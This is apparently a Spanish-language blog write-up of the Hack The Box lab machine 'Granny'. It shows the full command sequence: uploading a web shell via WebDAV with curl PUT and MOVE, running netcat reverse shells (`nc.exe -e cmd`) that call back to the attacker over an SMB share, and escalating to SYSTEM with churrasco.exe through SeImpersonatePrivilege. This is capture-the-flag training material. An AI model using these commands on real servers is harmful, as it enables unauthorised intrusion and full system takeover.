 ```yaml
---
title: Granny - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad de ```Webdav``` que nos permitirá llevar a cabo un ```RFI```

## **Reconocimiento**

Utilizaremos la herramienta ```nmap``` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto ```80``` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto ```80``` se ha detectado un ```Webdav``` además de un ```IIS```

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de ```Webdav``` que nos permite mediante ```curl``` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** ```(cmdasp.aspx)```

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
```

> Subiremos el archivo en formato ```.txt``` ya que no podremos en formato ```.aspx```

Una vez el archivo ya subido aprovecharemos el metodo ```MOVE``` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt 
```

> Utilizaremos la cabecera ```Destination``` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el ```nc.exe```

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe . 
```

Utilizaremos ```impacket-smbserver``` para establecer una conexión por ```smb``` y así poder compartir el archivo ```nc.exe``` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante ```nc.exe```

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

Y a su vez en nuestra máquina nos pondremos en escucha por el puerto ```443```

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es ```SeImpersonatePrivilege```

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a https://github.com/Re4son/Churrasco/raw/master/churrasco.exe y descargaremos el ejecutable ```churrasco.exe``` *(xd)*

Utilizando el ```impacket-smbserver``` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a ```C:\WINDOWS\temp``` y en esta ruta usaremos el comando: 

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos ```churrasco.exe```

```bash
churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```
Por lo tanto al ver el uso del comando intentaremos conseguir una shell como ```root```, así que deberemos usar ```nc.exe```:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con ```nc``` por el puerto ```443```:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver **ambas flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

Espero que os haya gustado y servido, cualquier comentario es de muchas ayuda. Adios!